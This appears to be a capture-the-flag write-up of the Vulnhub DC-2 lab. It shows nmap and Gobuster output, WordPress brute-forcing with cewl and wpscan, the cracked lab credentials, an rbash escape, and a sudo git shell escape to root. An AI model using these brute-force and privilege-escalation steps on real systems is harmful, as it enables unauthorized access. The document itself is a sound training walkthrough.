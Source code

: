```yaml
---
title:     "Vulnhub - DC 2"
tags: [wordpress,easy,sudo,rbash]
---
```


Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description:

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : <https://www.vulnhub.com/entry/dc-2,311/>

Lets begin with our initial nmap scan

## Nmap Scan Results:

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/5.png)

I logged in with jerry
Found ``Flag 2``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``<br/> 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation:

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/11.png)
.<br/>
.<br/>
.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 